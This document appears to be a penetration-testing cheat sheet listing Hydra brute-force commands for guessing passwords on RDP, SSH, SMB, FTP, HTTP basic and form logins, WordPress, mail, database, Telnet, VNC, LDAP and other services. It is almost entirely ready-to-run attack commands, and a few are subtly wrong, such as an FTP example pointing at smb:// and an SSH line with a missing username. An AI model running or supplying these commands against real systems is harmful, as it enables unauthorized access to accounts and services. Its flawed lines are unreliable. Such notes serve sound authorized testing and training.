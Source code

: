 ## Hydra

#### Hydra GUI
[xhydra](https://www.kali.org/tools/hydra/#hydra-gtk)
```bash
sudo apt install hydra-gtk
```


#### RDP
```shell
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	
```

#### SSH
```shell
hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
hydra $ip -s 22 ssh -l -P big_wordlist.txt
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
```

#### SMB
```shell
hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
hydra -L usernames.txt -P passwords.txt $ip smb -V -f	
```

#### FTP
```shell
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

#### HTTP Basic Auth
```shell
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
Http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin
```

#### HTTP Post
```shell
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.216.57 http-post-form "/Account/login.aspx:__VIEWSTATE=AmInWQjOL%2BAHMc9qQ0CW0CFnlUXaqoRXEj%2FOvBixV%2Fld9p%2BKj%2B7mB%2FZ7FcrOxWmCkIjSfD9utiaSxAvSBmKz1VkaDvYW9b5sxJWoX3ZOskfQg0u3CsSjndshwiuLcEq7l%2BRc7FwwBs%2BvLvrnXfcLFt%2B0vNv1zwwLa3QoTUjG3V9hk0Sg&__EVENTVALIDATION=zMZzvwm4lfkTglvBFfLhbEjJu8yEheigLkmHJ7E8owtV2FVK0TTZdne0RExmMdPY5RORs4UuLmymoBfQmY8UwKaRwaqnpZkAM%2BPLgxPNj3wtiiTaC4jbJSUoKPCRWBtpMIz4vtdxr9zbhDPn5zB7IJSOpA%2FMzo6LYD9oiiaMKWUj8VNM&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

#### IMAP
```shell
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```

#### MySQL
```shell
hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
```

#### POP
```shell
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V	
```

#### Redis
```shell
hydra –P password.txt redis://10.0.2.5 -V
```

#### Rexec
```shell
hydra -l root -P password.txt rexec://10.0.2.5 -V
```

#### Rlogin
```shell
hydra -l root -P password.txt rlogin://10.0.2.5 -V
```

#### RSH
```shell
hydra -L username.txt rsh://10.0.2.5 -V
```

#### RSP
```shell
hydra -l root -P passwords.txt <IP> rtsp
```

#### SNMP
```shell
hydra -P password-file.txt -v $ip snmp
```

#### SMTP
```shell
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
#Port 587 for SMTP with SSL
```

#### Telnet
```shell
hydra -l root -P passwords.txt [-t 32] <IP> telnet
```

#### VNC
```shell
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
<IP> vnc
```

#### Wordpress
```shell
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	
```

#### LDAP
```shell
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f	
```

